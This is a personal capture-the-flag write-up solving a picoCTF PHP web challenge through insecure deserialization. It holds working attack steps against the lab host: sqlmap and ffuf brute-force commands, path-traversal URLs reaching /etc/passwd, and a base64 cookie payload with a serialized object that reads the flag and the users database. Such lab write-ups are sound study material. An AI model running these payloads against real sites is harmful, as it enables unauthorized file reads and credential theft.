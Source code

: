 With the combination of the PHPSESSID which is included in the login request + the name of the challenge I think it is likely that it has to do with the [serialize()](https://www.php.net/manual/en/function.serialize.php) php function

Going to _/.htaccess_ I came to a page with the same login, but with a white background. I am afraid this will be one of the confusing and tedious ones where you have to unnest the website.

There's an error of sorts: ![[Screenshot 2022-05-30 at 10.21.06.png]]
Looking at this screenshot, there is something about the number of _index.php_'s --> after 2x it appears anything on the end is ignored and I could insert URLs such as `http://mercury.picoctf.net:2148/index.php/index.php/yolo` without an error being raised..


Trying to request _/../flag_ returned an error 404, but requesting index.php/../flag a 200 --> still no flag in sight..
![[Screenshot 2022-05-30 at 10.42.32.png]]
![[Screenshot 2022-05-30 at 10.43.00.png]]
^ notice the referer header


_'THe PHPSESSID value you see, is just an MD5 identifier of session file assigned to current browser session.'_

THOUGHTS
- "documents must have a title"
- decode phpsessid
- session-fixation attack
- ../flag + .htaccess returns 404 not found..


I believe it is an sqli + lfi vulnerability, I am simply trying to find an entrypoint..
NEXT
===
Do: `sqlmap -u "mercury.picoctf.net:2148/index.php/" --method=POST --level=5 -risk=3 --threads=10 --cookie="PHPSESSID=ojb9be9jfrqtqv0rvs39ctjrsv" -p username`
![[Screenshot 2022-05-30 at 12.38.32.png]]
--> Off-by-slash
--> alias-lfi misconfig


doing /index.php/../style.css showed the style page, meaning there is definitely lfi going on

sanitizer.js:
`const DATA_URL_PATTERN = /^data:(?:image\/(?:bmp|gif|jpeg|jpg|png|tiff|webp)|video\/(?:mpeg|mp4|ogg|webm)|audio\/(?:mp3|oga|ogg|opus));base64,[a-z0-9+/]+=*$/i`


Progress
===
Navigating to `http://mercury.picoctf.net:2148//..%2f/flag` having used `%2e%2e%2f` in place of `../` we no longer got a _404 not found_ error but a _forbidden_ --> this is where I believe the PHPSESSID comes in! 
`http://mercury.picoctf.net:2148/..%2f/..%2f/..%2f/etc/passwd` shows th same error, so now we know where to find the files, and that we cannot r ead them due to the phpsessid. It appears the sanitisation did not allow for simply _.._ or _%2e_ but _..%2f_ works.

ARIA_ATTRIBUTE_PATTERN is in use --> has to do with accessing the directory tree

THOUGHTS
- sqli to get user credentials
- log in with valid + use stolen PHPSESSID to access forbidden page
- try uplaoding a file and then find it?



BREAKING POINT
===
Looking at a CTFTime writeup, I learned something I did not know: the _robots.txt_ which showed the _admin.phps_ file existed, meant that other _.phps_ files would also be available --> i.e. _/index.phps_:

the error message of _/index.phps_:
```
is_guest() || $perm_res->is_admin()) { setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/"); header("Location: authentication.php"); die(); } else { $msg = '
Invalid Login.
'; } } ?> 
```
From what I can understand, it runs a function which sets a cookie _login_ which is serialised, before base64 encoded and finally url encoded. It also appears the admin will be redirected to authentication.php - so if we try to access this by going to _/authentication.phps_:
```
log_file = $lf; } function __toString() { return $this->read_log(); } function append_to_log($data) { file_put_contents($this->log_file, $data, FILE_APPEND); } function read_log() { return file_get_contents($this->log_file); } } require_once("cookie.php"); if(isset($perm) && $perm->is_admin()){ $msg = "Welcome admin"; $log = new access_log("access.log"); $log->append_to_log("Logged in at ".date("Y-m-d")."\n"); } else { $msg = "Welcome guest"; } ?>

```
So there's a _cookie.php_ file, and some log file _access.log_
Contents of _cookie.phps_:
```
username = $u; $this->password = $p; } function __toString() { return $u.$p; } function is_guest() { $guest = false; $con = new SQLite3("../users.db"); $username = $this->username; $password = $this->password; $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?"); $stm->bindValue(1, $username, SQLITE3_TEXT); $stm->bindValue(2, $password, SQLITE3_TEXT); $res = $stm->execute(); $rest = $res->fetchArray(); if($rest["username"]) { if ($rest["admin"] != 1) { $guest = true; } } return $guest; } function is_admin() { $admin = false; $con = new SQLite3("../users.db"); $username = $this->username; $password = $this->password; $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?"); $stm->bindValue(1, $username, SQLITE3_TEXT); $stm->bindValue(2, $password, SQLITE3_TEXT); $res = $stm->execute(); $rest = $res->fetchArray(); if($rest["username"]) { if ($rest["admin"] == 1) { $admin = true; } } return $admin; } } if(isset($_COOKIE["login"])){ try{ $perm = unserialize(base64_decode(urldecode($_COOKIE["login"]))); $g = $perm->is_guest(); $a = $perm->is_admin(); } catch(Error $e){ die("Deserialization error. ".$perm); } } ?> 
```
So database is _sqlite3_, parameters are u and p --> maybe we can do an sqlmap db dump?
_../users.db_ --> doubt we can access it but worth trying. Looks like the cookie value is "login"


Trying some password fuzzing `ffuf -w ../../../tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt -X POST -d "u=admin&p=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u  http://mercury.picoctf.net:2148/index.php -mr 'Welcome admin'` did not work, but I also dont think its supposed to.

As thought of earlier, there is indeed PHPSESSID manipulation required, but the method was not what I expected:


METHOD
===
setting a new cookie _login_ to *whatever* leads to the deserialisation error. Hence, this is the one we can manipulate, NOT the PHPSESSID..
Using the serialisation format of php to build the 'cookie' using [this guide](https://en.wikipedia.org/wiki/PHP_serialization_format) and [this]():
O:lengthOfObjName:"className":numOfPropertiesInClass:{properties}. This can be automated using the following php code:
```
class access_log
{
    public $log_file;

    function __construct($lf) {
        $this->log_file = $lf;
    }

    function __toString() {
        return $this->read_log();
    }

    function append_to_log($data) {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log() {
        return file_get_contents($this->log_file);
    }
}
echo serialize(new access_log("../flag"))
```
**NOTICE how I included the access_log class which could be found using `curl "http://mercury.picoctf.net:2148/authentication.phps"`**
Now, taking the serialised string and urlencoding it after base64 encoding it we get:
`O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}` --> `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9` before exceuting `document.cookie="login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"` we get the flag:
**_picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}_**


Takeaways:
- try the extensions you find in robot.txt
- its normally not the pre-generated cookie which needs manipulation but other defined + hidden ones
- loging not always required..


FURTHER
===
using the same method but for _../users.db_ instead of _../flag_ I got the credentials _admin_:_8e06b9938d87364f874739448363142_ --> but they did not work and I could not crack the hash..